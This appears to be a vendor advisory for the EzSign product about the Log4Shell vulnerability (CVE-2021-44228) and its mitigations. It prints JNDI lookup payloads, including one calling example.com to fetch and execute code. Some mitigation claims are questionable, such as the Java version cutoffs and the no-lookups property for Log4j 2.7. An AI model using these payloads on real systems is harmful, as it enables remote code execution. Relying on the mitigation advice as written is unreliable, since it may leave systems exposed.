 ```yaml
---
layout: default
title: EzSign CVE-2021-44228
parent: EzSign
nav_order: 100
---
```


# EzSign: CVE-2021-44228

> Apache Log4j2 Vulnerability (Log4Shell)



A vulnerability exists in log4j2 that leverages JNDI to potentially allow an attacker to provide a string that is interpreted as a variable  

JNDI does not enforce any security controls on LDAP requests, therefore if a string such as the following:

```
${jndi:ldap://[host]/[path]}
```

Could be logged, Log4J would interpret it as a variable and this would result in the classes available at the ``[host]/[path]`` location being downloaded and executed

<br>

## Am I Vulnerable

EzSign does makes use of the vulnerable  log4j2 libraries. However, input is passed to the server via the EzSign client and the client is itself driven by internal applications. Applications that utilise the EzSign client are not generally web facing  

Data sent to EzSign is generally tightly controlled (from trusted sources etc.), but data from an external source could enter the EzSign logs if sent as part of data to sign (or verify)  

If you hash this data before sending to EzSign then no original data will be sent to the EzSign logging system and a variable will  therefore not be logged

Also EzSign converts data it receives to Base64 before logging. So if an attack string does enter the system, it will not be logged as intended   

For example, if an attacker were to attempt to send the following string, as part of a message to sign data:

```
${jndi:ldap://example.com/executethis}
```

It would be logged as follows:

```
JHtqbmRpOmxkYXA6Ly9leGFtcGxlLmNvbS9leGVjdXRldGhpc30=
```

and if hashed prior, as:

```
mthnTlPO6hThbYbhQHyZ1uDVqN+CKyNcsdakX/GmckM=
```

I.e. the attack string is not sent to Log4J as the intended string - but the Base64 encoded form (of the original or hashed version). This means log4j is not sent the variable

<br>

Channel names, may be logged as sent to EzSign however. But these names are defined and configured by the trusted applications that call the EzSign client. They should not able to be passed in from external sources

<br>

### What should we do

If you are running EzSign against versions of Java greater than the following, 

- Java 7 – 7u202
- Java 8 – 8u192
- Java 11 - 11.0.2

You should not be vulnerable

<br>

In any case, you should set the following system property:

```
log4j2.formatMsgNoLookups=true
```

Or environment variable

```
LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

To disable this behaviour

<br>

If EzSign is not performing any revocation checking (CRL or OCSP) then it does not need any external access. Restrict access from EzSign to any external sites using firewall rules

<br>

### Patches

Patches will be issued to replace the vulnerable log4j libraries. Once notified the process to replace is simple and should be scheduled in as soon as possible

<br>

### What version of Log4j2 does EzSign use?

Version 3.0.0 and earlier uses  Log4J version 2.7

Version 4.0.0 and later uses Log4J version 2.11.1

<br>

### More Information

Contact [Krestfield Support](mailto:support@krestfield.com) for more information

